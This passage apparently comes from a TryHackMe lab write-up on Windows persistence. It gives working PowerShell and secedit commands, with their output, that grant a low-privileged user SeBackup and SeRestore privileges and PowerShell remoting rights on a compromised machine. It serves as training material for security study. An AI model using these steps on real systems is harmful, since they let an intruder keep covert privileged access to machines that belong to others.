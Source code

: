 ```PowerShell
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/4/2023   2:56 AM          19318 config.inf
```
8. `notepad <FILENAME1>.inf` from the compromised Windows machine to open up the exported information file containing the compromised system's security configuration using Windows' Notepad text editor
```PowerShell
PS C:\Users\Administrator> notepad config.inf
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/notepad%20CONFIG.inf.png)

9. Once the file has been opened, we'll go and add our target user (thmuser2) at the end of the **SeBackupPrivilege** privilege, which allows a user or a process to bypass file system security restrictions and perform backup operations, and the **SeRestorePrivilege** privilege, which allows a user or a process to bypass file system security restrictions and perform restore operations, to assign them those privileges, which will allow them to execute the **flag2.exe** program without restrictions

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/CONFIG.inf%20Modifications.png)

10. `secedit /import /cfg <FILENAME1>.inf /db <FILENAME2>.sdb` from the compromised Windows machine to import our modified information (.inf) file containing the new security configuration for our compromised machine into a security database (.sdb) file, which will store our modified security configuration
```PowerShell
PS C:\> secedit /import /cfg config.inf /db config.sdb
```
11. `secedit /configure /db <FILENAME2>.sdb /cfg <FILENAME1>.inf` from the compromised Windows machine to override and configure their new security settings using the security database (.sdb) file we created, along with our modified information (.inf) file containing the compromised machine's modified security configuration, which ended up successfully executing
```PowerShell
PS C:\> secedit /configure /db config.sdb /cfg config.inf

The task has completed successfully.
See log %windir%\security\logs\scesrv.log for detail info.
```
12. `Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI` to display a graphical UI that'll allow us to modify the properties of the default session configuration for PowerShell remoting, which we'll do by add our target user (thmuser2) to the list of users who can remotely access PowerShell and assign them full privileges to allow them to not only access PowerShell but execute PowerShell commands as well
```PowerShell
PS C:\> Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
WARNING: Set-PSSessionConfiguration may need to restart the WinRM service if a configuration using this name
has recently been unregistered, certain system data structures may still be cached. In that case, a restart of
 WinRM may be required.
All WinRM sessions connected to Windows PowerShell session configurations, such as Microsoft.PowerShell and
session configurations that are created with the Register-PSSessionConfiguration cmdlet, are disconnected.
```
